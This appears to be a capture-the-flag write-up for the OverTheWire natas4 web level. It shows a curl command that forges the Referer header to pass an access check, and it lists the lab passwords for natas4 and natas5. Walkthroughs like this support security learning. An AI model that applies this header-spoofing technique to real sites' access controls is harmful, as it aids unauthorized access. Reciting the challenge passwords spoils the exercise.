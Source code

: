 ## Recap

* You'll get the password in level3. it's `Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ`

## Problem 

Username: natas4
URL:      http://natas4.natas.labs.overthewire.org

![image-20201001205305761](https://i.imgur.com/9SWC8Go.png)

## Solution

* In other words, the problem4 needs you change your referer to natas5. The following image is natas4's request header.

![image-20201001205657804](https://i.imgur.com/6IFz2VA.png)

* Now, we copy curl command. Only if we change the request header website will give us token or secret.

![image-20201001205745038](https://i.imgur.com/PeEI8Y1.png)

* And command copied as followed, we change referer and resend in cmd or bash. (I use bash.)

```cmd
curl 'http://natas4.natas.labs.overthewire.org/index.php' \
  -H 'Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Referer: http://natas5.natas.labs.overthewire.org/' \
  -H 'Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6,ja;q=0.5' \
  -H 'Cookie: __utmz=176859643.1584093642.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); __utmc=176859643; __utma=176859643.1553443093.1584093642.1601477126.1601556715.10; __utmt=1; __utmb=176859643.2.10.1601556715' \
  --compressed \
  --insecure
```

* After doing so, you'll get the token.

![image-20201001210119071](https://i.imgur.com/rJk4Sch.png)

`Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq`